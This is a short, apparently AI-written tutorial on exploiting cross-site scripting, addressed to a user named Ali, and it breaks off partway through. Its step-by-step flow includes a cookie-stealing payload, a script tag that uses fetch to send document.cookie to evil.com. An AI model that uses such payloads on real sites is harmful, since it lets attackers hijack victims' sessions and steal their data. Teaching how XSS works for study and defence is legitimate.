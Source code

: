 > XSS is dangerous because it runs in the user’s browser — and the browser trusts it. Whether it’s reflected by the server or injected by client-side code, it can hijack sessions, steal data, and impersonate users.

---


Absolutely Ali — let’s dive deep into  **XSS exploitation** , step by step. You’ll learn how attackers turn a simple script injection into full browser compromise, data theft, and account hijacking. This is the **real-world offensive side** of Cross-Site Scripting.

---

## 🧠 What Is XSS Exploitation?

**XSS exploitation** is the process of using a vulnerable web page to execute **malicious JavaScript** in a victim’s browser.

The attacker doesn’t hack the server — they **hijack the user’s session** by abusing the trust between the browser and the site.

> The browser thinks the script is safe because it came from a trusted site — but it’s actually attacker-controlled.

---

## 🧨 Step-by-Step Exploitation Flow

### 1️⃣ Find an Injection Point

* Input field, URL parameter, comment box, or any place where user input is reflected in the page.
* Example:
  ```html
  https://site.com/search?q=<script>alert(1)</script>
  ```

### 2️⃣ Inject Malicious Payload

* Replace harmless script with a real attack:
  ```html
  <script>fetch('https://evil.com?cookie=' + document.cookie)</script>
  ```

### 3️⃣ Wait for Victim to Load the Page

* If it’s  **stored XSS** , every visitor triggers the payload.
* If it’s  **reflected XSS** , attacker sends a crafted link to the victim.

### 4️⃣ Script Executes in Victim’s Browser

* Browser runs the script with full access to:
  * Cookies
  * LocalStorage
  * DOM
  * Session
